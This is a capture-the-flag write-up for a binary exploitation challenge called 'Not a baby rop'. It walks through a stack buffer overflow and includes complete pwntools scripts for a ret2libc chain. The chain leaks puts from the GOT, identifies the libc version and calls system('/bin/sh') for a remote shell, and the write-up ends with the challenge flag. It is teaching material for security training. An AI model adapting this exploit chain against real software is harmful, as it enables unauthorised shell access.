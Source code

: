 # Not a baby rop

	You already know what's up 😉
	warzone.hackrocks.com:7770

## Pwn it

![Checksec and linked](screenshots/2022-05-23_16-01-13.png)

First to notice, is mitigations : 

- No Canary
- No Stack execution
- No PIE, so the code of the binary wouldn't move

Also, binary is dynamically linked, and not stripped(so debug step should be easier).



![SigSegv confirmed](screenshots/2022-05-23_18-16-45.png)

As we confirmed there is a Segfault error, we now try to see if the RIP is overwritten, and the offset of this overflow :

![Get the offset](screenshots/2022-05-23_18-23-49.png)

The offset, then, is 136 (`cyclic -o 0x6261616a`)

Plus, the libc address is randomized : 

![Libc address randomized](screenshots/2022-05-23_18-26-47.png)

So, the plan to pwn the bin would look like to :

- Leak the libc with puts@plt(puts@got) + ret2main (mine is ret2entrypoint)
- Search for the libc version from that leak
- Use this libc to call `system('/bin/sh')`

### Leak Libc Address

So, to make the ropchain to leak a libc address, it should look like this : 

	PADDING + POP RDI ; RET + PUTS@GOT + PUTS@PLT + ENTRYPOINT

```py
from pwn import *

HOST = "warzone.hackrocks.com"
PORT = 7770

elf = ELF('not-a-baby-rop')

DEBUG = True

if DEBUG:
	libc = elf.libc
	p = elf.process()
else:
	# libc = ELF('future_libc.so') # We don't have it yet
	p = remote(HOST, PORT)

rop = ROP(elf)

offset = 136

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(elf.symbols.got.puts),
	p64(elf.symbols.plt.puts),
	p64(elf.entrypoint)
	])

_ = p.recvuntil(b"let's see what u got\n")
p.sendline(payload)
leaked = unpack(p.recvuntil(b"let's see what u got")[:6], 'all')

print("Leaked", hex(leaked))
```
![](screenshots/2022-05-24_01-45-46.png)

### Find the Libc version

From the previous step, we get the puts address from loaded libc. Then we can find the libc version with this data, with Blukat DB : 

![Blukat DB find Libc Version](screenshots/2022-05-24_01-46-54.png)

### Use Libc to get system('/bin/sh')

As we have the right libc version, we can load it in our script as an elf, then set its base address to use it in a right way.

So this second payload should look like : 

	PADDING + POP RDI ; RET + /BIN/SH POINTER + SYSTEM

```py
libc.address = leaked - libc.symbols.puts

print("Libc @ ", hex(libc.address))

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(next(libc.search(b'/bin/sh\x00'))),
	p64(libc.symbols.system)
	])

p.sendline(payload)
p.interactive()
```

## Script

```py
from pwn import *

HOST = "warzone.hackrocks.com"
PORT = 7770

elf = ELF('not-a-baby-rop')

DEBUG = False

if DEBUG:
	libc = elf.libc
	p = elf.process()
else:
	libc = ELF('libc.so')  # libc6_2.28-10+deb10u1_amd64
	p = remote(HOST, PORT)

rop = ROP(elf)

offset = 136

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(elf.symbols.got.puts),
	p64(elf.symbols.plt.puts),
	p64(elf.entrypoint)
	])

# context.log_level = 'debug'

_ = p.recvuntil(b"let's see what u got\n")
p.sendline(payload)
leaked = unpack(p.recvuntil(b"let's see what u got")[:6], 'all')

print("Leaked", hex(leaked))
libc.address = leaked - libc.symbols.puts

print("Libc @ ", hex(libc.address))

payload = flat([
	cyclic(offset),
	p64(rop.rdi.address),
	p64(next(libc.search(b'/bin/sh\x00'))),
	p64(libc.symbols.system)
	])

p.sendline(payload)
p.interactive()
```

![Pwned](screenshots/2022-05-24_01-51-09.png)

## Flag

	flag{its_4_s1mpl3_r0pppp}